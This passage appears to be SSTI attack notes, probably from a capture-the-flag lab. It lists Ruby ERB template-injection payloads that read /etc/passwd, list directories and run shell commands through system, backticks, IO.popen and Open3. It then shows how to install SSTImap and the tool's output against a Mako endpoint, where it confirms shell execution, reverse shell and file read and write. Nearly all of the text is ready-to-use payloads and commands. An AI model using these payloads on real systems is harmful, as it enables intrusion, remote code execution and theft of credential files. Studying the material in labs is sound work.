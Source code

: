 **Read files**
```ruby
<%= File.open('/etc/passwd').read %>
<%= Dir.entries('/') %>
```

**RCE**
```ruby
<%= system('cat /etc/passwd') %>
<%= `ls /` %>
<%= IO.popen('ls /').readlines() %>
<% require 'open3' %><% @a,@b,@c,@d=Open3.popen3('whoami') %><%= @b.readline() %>
```
## Tool
https://github.com/vladko312/SSTImap

### Installation
```bash
git clone https://github.com/vladko312/SSTImap.git
```

```bash
pip3 install -r requirements.txt --break-system-packages
```

### Usage
```bash
sstimap.py -X POST -u 'http://ssti.thm:8002/mako/' -d 'page='
```

Result:
```bash
sstimap -X POST -u 'http://ssti.thm:8002/mako/' -d 'page='                       

    ╔══════╦══════╦═══════╗ ▀█▀
    ║ ╔════╣ ╔════╩══╗ ╔══╝═╗▀╔═
    ║ ╚════╣ ╚════╗  ║ ║    ║{║  _ __ ___   __ _ _ __
    ╚════╗ ╠════╗ ║  ║ ║    ║*║ | '_ ` _ \ / _` | '_ \
    ╔════╝ ╠════╝ ║  ║ ║    ║}║ | | | | | | (_| | |_) |
    ╚══════╩══════╝  ╚═╝    ╚╦╝ |_| |_| |_|\__,_| .__/
                             │                  | |
                                                |_|
[*] Version: 1.2.4
[*] Author: @vladko312
[*] Based on Tplmap

[+] Mako plugin has confirmed injection with tag '*'
[+] SSTImap identified the following injection point:

  Body parameter: page
  Engine: Mako
  Injection: *
  Context: text
  OS: posix-linux
  Technique: render
  Capabilities:

	Shell command execution: ok
	Bind and reverse shell: ok
	File write: ok
	File read: ok
	Code evaluation: ok, python code

```
